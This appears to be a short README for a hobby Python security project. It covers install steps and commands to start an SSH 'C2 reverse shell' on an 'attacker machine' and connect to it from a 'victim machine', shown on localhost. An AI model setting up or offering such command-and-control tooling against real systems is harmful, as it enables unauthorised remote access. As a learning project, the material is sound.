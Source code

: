 == Python Cyber and Fun

A bit of fun

== Installation

    pyenv virtualenv 3.11.3 cyber
    pyenv activate cyber
    pip install -r requirements.txt

== ssh testing with paramiko

You will need to generate a temporary RSA key

    ssh-keygen -t rsa -C "a@a.com" -f /tmp/test_rsa2.key

start the C2 ssh_reverse_shell on the attacker machine

    python src/ssh/ssh_reverse_shell.py 127.0.0.1 2222 username password

connect to C2 from victim machine

    python src/ssh/ssh_c2.py 127.0.0.1 2222 username password
